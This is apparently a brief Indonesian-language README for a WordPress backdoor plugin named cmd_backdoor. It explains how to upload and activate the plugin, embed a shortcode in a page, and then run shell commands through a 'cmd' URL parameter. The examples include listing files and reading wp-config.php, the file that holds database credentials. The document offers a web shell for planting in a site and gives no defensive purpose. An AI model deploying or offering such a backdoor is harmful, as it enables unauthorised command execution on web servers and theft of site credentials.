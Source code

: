 **[1] upload cmd_backdoor.zip**

**[2] activate**  
!(0.png)

**[3] masukkan shortcode ke page/post**  
`[cmd_backdoor]`  
!(1.png)

**[4] akses page dengan get params cmd=**  
contoh http://example.com/?cmd=id  
contoh http://example.com/?cmd=ls -lah  
contoh http://example.com/?cmd=cat wp-config.php  
!(2.png)
